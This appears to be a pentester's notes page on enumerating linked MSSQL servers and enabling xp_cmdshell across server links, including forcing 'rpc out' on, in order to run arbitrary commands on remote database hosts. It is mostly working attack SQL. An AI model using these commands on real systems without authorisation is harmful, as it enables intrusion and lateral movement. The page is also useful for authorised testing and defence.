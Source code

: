 # <h1 align="center" id="heading">Linked MSSQL Servers</h1>
There are a few ways that I can go about enumerating Linked MSSQL Servers within a domain environment. If I have RDP access or shell access through Impacket's mssqlclient.py, I can manually enumerate server links. I can also use my previously developed tradecraft to accomplish the same task. The base command to enumerate a server link is as follows:
```sql
exec sp_linkedservers;
```
If there is a server link, I can use openquery to run queries on the remote SQL server. I can select the MSSQL version with the following command:
```sql
select version from openquery("<target>", 'select @@version as version');
```
If I have access, I can enable xp_cmdshell through the server link with the following command:
```sql
exec ('sp_configure ''show advanced options'', 1; reconfigure;exec sp_configure ''xp_cmdshell'', 1; reconfigure;') at <target>;exec ('xp_cmdshell ''whoami'';') at <target>;
```
There may be a case where RPC is disabled on the remote server. In that case I can still enable xp_cmdshell with the following command:
```sql
exec sp_serveroption '<target>', 'rpc out', 'true';exec ('sp_configure ''show advanced options'', 1; reconfigure;exec sp_configure ''xp_cmdshell'', 1; reconfigure;') at <target>;exec ('xp_cmdshell ''whoami'';') at <target>;
```
If I get a username returned by either of the previous commands, I can use the following query string to execute commands on the remote server:
```sql
exec ('xp_cmdshell ''<command>'';') at <target>;
```
